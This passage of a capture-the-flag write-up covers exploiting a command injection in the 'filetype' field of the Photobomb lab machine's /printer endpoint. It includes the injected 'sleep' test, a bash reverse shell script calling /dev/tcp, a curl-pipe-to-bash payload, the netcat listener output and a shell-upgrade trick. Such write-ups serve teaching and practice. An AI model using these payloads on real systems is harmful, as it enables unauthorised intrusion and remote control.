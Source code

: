 ```jsx
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Type: application/x-www-form-urlencoded
Authorization: Basic cEgwdDA6YjBNYiE=

photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;sleep 100&dimensions=3000x2000
```

Sure enough, the request timed out. Using this command injection, we can setup a listener, serving a reverse shell and get a connection back:

```bash
$ cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.8/1337 0>&1
$ python -m http.server 8000 &
$ nc -lvnp 1337 &
```

Then we can execute our command and wait for our reverse shell:

```jsx
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Type: application/x-www-form-urlencoded
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=

photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;curl%20http%3A%2F%2F10.10.14.8%3A8000%2Fshell.sh%7Cbash&dimensions=3000x2000
```

You’re a wizard, Harry!

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.182] 56376
bash: cannot set terminal process group (702): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$
```

We can upgrade our shell (or make it a little more resilient) with a nifty trick explained [here](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```bash
wizard@photobomb:~/photobomb$ script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lnvp 443
$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
wizard@photobomb:~/photobomb$
```
